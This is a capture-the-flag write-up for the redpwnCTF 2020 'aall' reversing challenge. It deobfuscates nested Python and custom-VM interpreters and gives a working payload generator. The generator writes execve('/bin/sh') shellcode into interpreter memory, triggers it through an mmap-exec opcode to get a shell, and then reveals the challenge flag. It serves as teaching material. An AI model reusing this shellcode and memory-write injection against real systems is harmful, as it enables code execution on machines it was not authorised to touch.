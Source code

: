 +++
title = "redpwnCTF - aall"
date = 2020-06-25
aliases = ["/posts/5ef4d50d1d3e7302fc8a3418-redpwnctf-aall"]
[taxonomies]
tags = ["redpwnctf20", "reversing", "python"]
categories = ["ctf-writeups"]
+++

# Challenge

> how many layers of vm are you on
>
> like,, maybe 5, or 6 right now my dude
>
> you are like a baby... watch this
>
> nc 2020.redpwnc.tf 31755

We're also given a [python file](https://gist.github.com/srikavin/f6fc3f9cf62155b95868bac16a40ba5a#file-aall-py) and a 
[Dockerfile](https://gist.github.com/srikavin/f6fc3f9cf62155b95868bac16a40ba5a#file-dockerfile).

# Decoding

Looking at the python file shows that it writes out a file named `breakout.aallo` and calls `exec` on a string after 
base64-decoding and lzma-uncompressing it. We can modify the file to save the executed file to disk instead. 
It's a [python script](https://gist.github.com/srikavin/0cba74ad88e43442154dd341979c9b6d), but all of the variables are 
random unicode characters. Although the python interpreter is happy to run the code, it's nearly impossible to understand. 

<!-- more -->

I wrote a small script to replace all of the unicode characters with a different name:

```python
final = b''
mapping = dict()
counter = 0

for c in decompressed:
    if c >= 128:
        if not c in mapping:
            mapping[c] = 'v' + str(counter)
            counter += 1
        final += mapping[c].encode()
    else:
        final += bytes([c])

open('unpacked1.py', 'wb').write(final)
```

This results in a [slightly easier to read file](https://gist.github.com/srikavin/d495f27076450822e0fc4f6cd4dbc62c):

I went ahead and renamed all of the variables and cleaned up the file. The [resulting file](https://gist.github.com/srikavin/cce2544f70b8283309ac088d274b3b06) 
was clearly an interpreter. An interpreted program is passed through argv, which is then loaded into interpreter memory 
(an array). The first two bytes of the program contain the address to start interpreting at.

The interpreter isn't too complicated, but it has an interesting instruction `%`:

```python
elif instr_type == '%':
    idd = id(memory[registers['ip']:]) + 48
    mmapped = mmap.mmap(-1, mmap.PAGESIZE, prot=mmap.PROT_READ | mmap.PROT_WRITE | mmap.PROT_EXEC)
    c_functype = ctypes.CFUNCTYPE(ctypes.c_int, ctypes.c_int)
    v3v17v25v21 = ctypes.c_void_p.from_buffer(mmapped)
    function = c_functype(ctypes.addressof(v3v17v25v21))
    v3v19v57v10 = bytes(memory[registers['ip']:]).replace(b'\x00', b'')
    mmapped.write(v3v19v57v10)
    retVal = function(idd)
    del v3v17v25v21
    mmapped.close()
```

This instruction mmaps a new block of memory, loads the memory following the instruction pointer's current position, 
and executes it. This means if we somehow insert shellcode into memory, we can execute by using this opcode.

## breakout.aall

We also have the file `breakout.aall` which is the program interpreted by this interpreter. I wrote a script to print 
[a disassembly](https://gist.github.com/srikavin/8c49d2d8c90d9f09aa6e6b5ed771c803) of this file. This program, when 
executed by the interpreter (which is executed by the python interpreter), loads the string 
`https://aaronesau.com/files/objectively-wrong.png` into memory, and then accepts user input.

`breakout.aall` acts as an interpreter itself. It has five instructions:
* `>` which increments the stack pointer
* `<` which decrements the stack pointer
* `+` which increments the value at the stack pointer (dereferences the stack pointer and increments the value)
* `-` which decrements the value at the stack pointer
* `?` which acts as a NOP

We can use `breakout.aall` to write values to memory. Since, the opcodes for `breakout.aall` is also stored in memory, 
we can modify the executed opcodes to include a `%` instruction to execute shellcode. 

The approach is clear: write shellcode to memory, then overwrite parts of `breakout.aal` in memory to jump to the shellcode.

# Payload Generation

Conveniently, `breakout.aall` has a NOP instruction that we can overwrite to `%` to call shellcode. I wrote a script to 
generate the payload:

```python
sp = 1469


def move_sp_to(goal):
    global sp

    old_sp = sp
    sp = goal

    if goal == old_sp:
        return ''
    if goal > old_sp:
        return '>' * (goal - old_sp)
    if goal < old_sp:
        return '<' * (old_sp - goal)


def write_val(index, value, initial_value=0):
    global sp

    ret = move_sp_to(index)

    if value == initial_value:
        return ret
    if value > initial_value:
        return ret + '+' * (value - initial_value)
    if value < initial_value:
        return ret + '-' * (initial_value - value)


payload = ""

previous = b'\x01\x00\x8a\x04\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00https://aaronesau.com/files/ob'
shellcode = b'\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05'
print(shellcode)
# % INSTR AT 1398
payload += write_val(1398, 0x25, 0x5)

# write payload
i = 0
for b in shellcode:
    payload += write_val(1400 + i, b, previous[i])
    i += 1

# trigger shellcode
payload += "?"

print(payload)
```

Since we can only increment and decrement the values at certain locations, I included the values at the memory location before running the script, so that those addresses could be incremented/decremented appropriately.

Piping the output from this script into the program gives us a shell, and we can get the flag:
`flag{b1ng0!_obl1g4t0ry-sh1tty-cust0m_4rch_ch4l-ftw}`.

